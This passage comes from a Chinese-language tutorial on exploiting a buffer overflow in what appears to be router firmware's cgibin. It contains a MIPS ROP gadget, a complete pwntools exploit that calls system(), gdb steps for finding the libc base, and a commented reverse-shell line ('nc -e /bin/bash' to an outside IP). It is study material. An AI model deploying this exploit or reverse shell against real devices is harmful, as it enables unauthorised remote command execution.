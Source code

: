 ```
|  0x000159CC  |  addiu $s5,$sp,0x170+var_160                         |  jalr  $s0                             |
```

我们看一下这个地址的汇编代码：

```
.text:000159CC                 addiu   $s5, $sp, 0x170+var_160
.text:000159D0                 move    $a1, $s3
.text:000159D4                 move    $a2, $s1
.text:000159D8                 move    $t9, $s0
.text:000159DC                 jalr    $t9 ; mempcpy
.text:000159E0                 move    $a0, $s5
```

这个地方是通过寄存器`$s0`来进行下一个跳转的，和我们最开始找的那个“+1”gadget所对应的寄存器是同一个。

2.编写exp

所以我们最终的exp模版如下所示：

```
from pwn import *
context.arch = 'mips'
context.endian = 'little'
libc_base = 0x76738000
system_offset = 0x53200-1
gadget1 = 0x159cc
gadget2 = 0x158C8
#cmd = "nc -e /bin/bash 192.168.100.254 9999"
cmd = "/bin/sh"
data = "a"*1003
data += p32(libc_base+system_offset) #s0
data += "bbbb" #s1
data += "cccc" #s2
data += "dddd" #s3
data += "eeee" #s4
data += p32(libc_base+gadget1) #s5
data += "ffff" #s6
data += "gggg" #s7
data += "aaaa" #gp
data += p32(libc_base+gadget2) #ra
data += "b"*0x10
data += cmd
f=open("content","wb")
f.write(data)
f.close()
```

我们只要在cmd的位置填上我们想要其执行的指令就可以啦。这个里面还有一个`libc_base`的基地址，我们还是通过上一篇介绍的，也就是用gdb调试的时候，用`vmmap`查看的。过程如下：

```
gdb-multiarch htdocs/cgibin
target remote 127.0.0.1:1234
b *0x409A54
c
vmmap
```
